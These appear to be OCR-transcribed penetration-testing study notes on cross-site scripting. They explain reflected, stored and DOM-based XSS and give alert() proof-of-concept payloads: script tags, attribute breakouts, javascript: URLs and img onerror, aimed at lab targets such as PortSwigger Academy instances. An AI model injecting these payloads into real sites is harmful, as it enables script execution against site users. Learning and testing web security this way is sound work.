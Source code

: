 ## 2.1	REFLECTED

- Occurs when user inputs (like URL parameters) are reflected back onto the web page. Adversaries can inject script tags to run arbitrary code.

`http://10.102.11.197/purchase?id=<script>alert("xss")</script>`

### 2.1.1	-

- Tip: check if URL parameter is reflected in the webpage. I.e. from Blake Jarvis, "web.k" reflected into "class" attribute. double-quotes not escaped, leading to xss.

`es-pe/web.k"onpageshow=alert(1)%20y="`

### 2.1.2	-

- Tip: If a certain payload doesn't work, try multiple. PortSwigger lab rejected `<script>` tags but worked with `<img>` tag. [23]

## 2.2	STORED

- Occurs when user inputs are STORED (like blog comments) and reflected back onto the web page. Anyone visiting the blog will be victim.  

## 2.3	DOM-BASED

- The technique to avoid sending payload to the server hinges on the fact that URI fragments (i.e. part in URI after #) is not sent to server

`somesite.com/page.html#default=<XSSinjection>`

### 2.3.1	-

- If input is reflected in href tag, try the following payload to achieve code execution [24]

`javascript:alert(1)`

`https://0a76008f032e38dec037a4a3007c0075.web-security-academy.net/feedback?returnPath=javascript:alert(1)`

### 2.3.2	-

- This example includes XSS payload included after # in the URL. jQuery code on the webpage executes it.  

`https://0a6c00cb04681a13c0f2cfe7000800d9.web-security-academy.net/#<img%20src=x%20onerror=alert(1)>`

### 2.3.3	-

- Check if user input is used in eval() anywhere.

### 2.3.4	-

- Check if user input is used in DOM statements such as "document.write" or "document.innerHTML"
